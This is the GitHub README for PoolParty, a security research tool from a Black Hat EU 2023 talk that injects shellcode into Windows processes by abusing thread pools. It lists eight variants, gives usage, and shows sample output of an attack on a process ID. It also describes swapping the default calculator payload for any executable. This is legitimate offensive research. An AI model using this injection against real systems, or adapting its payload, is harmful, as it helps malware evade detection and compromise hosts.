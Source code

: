 
# PoolParty
A collection of fully-undetectable process injection techniques abusing Windows Thread Pools. Presented at Black Hat EU 2023 Briefings under the title - [**The Pool Party You Will Never Forget: New Process Injection Techniques Using Windows Thread Pools**](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)

## PoolParty Variants

| Variant ID  | Varient Description |
| ------------- | ----------------- |
| 1  | Overwrite the start routine of the target worker factory       |
| 2  | Insert TP_WORK work item to the target process's thread pool   |
| 3  | Insert TP_WAIT work item to the target process's thread pool   |
| 4  | Insert TP_IO work item to the target process's thread pool     |
| 5  | Insert TP_ALPC work item to the target process's thread pool   |
| 6  | Insert TP_JOB work item to the target process's thread pool    |
| 7  | Insert TP_DIRECT work item to the target process's thread pool |
| 8  | Insert TP_TIMER work item to the target process's thread pool  |

## Usage
```
PoolParty.exe -V <VARIANT ID> -P <TARGET PID>
```

## Usage Examples

Insert TP_TIMER work item to process ID 1234
```
>> PoolParty.exe -V 8 -P 1234

[info]    Starting PoolParty attack against process id: 1234
[info]    Retrieved handle to the target process: 00000000000000B8
[info]    Hijacked worker factory handle from the target process: 0000000000000058
[info]    Hijacked timer queue handle from the target process: 0000000000000054
[info]    Allocated shellcode memory in the target process: 00000281DBEF0000
[info]    Written shellcode to the target process
[info]    Retrieved target worker factory basic information
[info]    Created TP_TIMER structure associated with the shellcode
[info]    Allocated TP_TIMER memory in the target process: 00000281DBF00000
[info]    Written the specially crafted TP_TIMER structure to the target process
[info]    Modified the target process's TP_POOL tiemr queue list entry to point to the specially crafted TP_TIMER
[info]    Set the timer queue to expire to trigger the dequeueing TppTimerQueueExpiration
[info]    PoolParty attack completed successfully

```

## Default Shellcode and Customization
The default shellcode spawns a calculator via the [WinExec API](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec). 

To customize the executable to execute, change the path in the end of the `g_Shellcode` variable present in the main.cpp file.

## Author - Alon Leviev
* LinkedIn - [Alon Leviev](https://il.linkedin.com/in/alonleviev)
* Twitter - [@_0xDeku](https://twitter.com/_0xDeku)
